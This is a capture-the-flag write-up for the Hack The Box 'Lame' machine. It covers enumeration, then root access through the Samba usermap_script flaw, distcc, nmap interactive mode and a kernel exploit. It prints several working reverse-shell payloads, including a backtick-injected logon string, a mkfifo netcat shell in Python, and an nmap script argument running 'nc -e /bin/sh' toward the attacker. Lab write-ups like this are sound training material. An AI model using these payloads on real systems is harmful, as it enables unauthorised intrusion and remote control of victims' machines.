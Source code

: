 # Lame HTB, IP address: 10.10.10.3

## Initial Enumeration 
 
 1. **nmap -sC -sV 10.10.10.3** 
 
![lame1](https://user-images.githubusercontent.com/15195048/93899974-bab02500-fca9-11ea-87c0-4ab4a045c096.png)
----------------------------------------------------------------------------------------------------------------------------------------------
## Port Enumeration

## 1.Enumerating FTP

vulnerable **vsftpd 2.3.4** , anonymous login allowed
According to nmap script the ftp service is not vulnerable so the version would possibly be a banner.
However, we will try metasploit in order to exploit this vulnerability.

**Metasploit**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo msfdb start
msfconsole
>search vsftpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![lame2](https://user-images.githubusercontent.com/15195048/93902144-167bad80-fcac-11ea-994e-7fff3d2e861e.png)


Yes, indeed this is a banner so it wont work!!

![lame3](https://user-images.githubusercontent.com/15195048/93902145-17144400-fcac-11ea-995f-560d1a312769.png)

## 2.Enumerating SMB on port 139 & 445

**1.enum4linux -a 10.10.10.3**


![lame4](https://user-images.githubusercontent.com/15195048/93902146-17144400-fcac-11ea-94fd-1935c5c21b4f.png)


**2.smbclient -L \\10.10.10.3**
 error NT_STATUS_CONNECTION_DISCONNECTED
 
  SMBClient generating an error: protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
  Samba has turned off default SMBv1 support as of September of last year.
  
**--option='client min protocol=NT1'**

**smbclient //10.10.10.x/ --option='client min protocol=NT1'**

Go to ur /etc/samba/smb.conf under the [global] section:
client min protocol = NT1
That allows smbclient to work against SMBv1 shares.

**3.smbmap -H 10.10.10.3**

 ![lame5](https://user-images.githubusercontent.com/15195048/93902150-17acda80-fcac-11ea-995a-4a4b2e36e4ec.png)

 
# Privilege Escalation no1

## A)Metasploit
Metasploit
msf5 > search samba 3.0.20
use exploit/multi/samba/usermap_script

![lame6](https://user-images.githubusercontent.com/15195048/93902152-18457100-fcac-11ea-99c5-18f7cbc424e5.png)

**Rooted**

# B)Manually exploit SMB

smbclient 10.10.10.3/tmp

smb>logon "/=`nohup nc -nv 10.10.14.4 4444 -e /bin/sh`"

![lame7](https://user-images.githubusercontent.com/15195048/93902155-18457100-fcac-11ea-998a-1cd80ce0c314.png)


**Attacker:** 
nc -lvpn 4444

![lame8](https://user-images.githubusercontent.com/15195048/93902156-18de0780-fcac-11ea-9708-2af75de533b0.png)

**Rooted**

# Samba exploit script written in Python
If you find an exploit written in Python you could modify the variables, or you can run line by line yourself.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$pythonn
>>> payload = '
>>> from smb.SMBConnection import SMBConnection
>>> payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.X 9999 >/tmp/f' Attacker IP and port
>>> username = "/=`nohup " + payload + "`"
>>> connection = SMBConnection(username, "", "", "")
>>> connection.connect("10.10.10.3",445)  Victim IP and port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lnvp 9999

**Rooted**
-----------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation no2
Enumerating port 3621 (distccd)

![lame9](https://user-images.githubusercontent.com/15195048/93902157-18de0780-fcac-11ea-9d38-70413e9d14dd.png)

 
Metasploit module:
searchsploit -m exploits/multiple/remote/9915.rb

Let’s see if a non-metasploit one is on the internet:

NMAP Script
ls -la /usr/share/nmap/scripts/*distcc*
/usr/share/nmap/scripts/distcc-cve2004-2687.nse


**nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.X 9999'" 10.10.10.3 -Pn**

**Attacker:**
$ nc -lnvp 9999

# A)GTFobins nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2$ id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# B)Kernel Exploit
Kernel Exploit
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

Search kernel exploits: 8572.c

Send with python server the exploit and get it from the victim machine
gcc -o exp 8572.c #compile it and run it

**UDEV Modern Linux distributions** are capable of identifying a hardware component which is plugged into an already-running system. There are a lot of user-friendly distributions like Ubuntu, which will automatically run specific applications like Rhythmbox when a portable device like an iPod is plugged into the system.

*Netlink is used to transfer information between the kernel and user- space processes.*
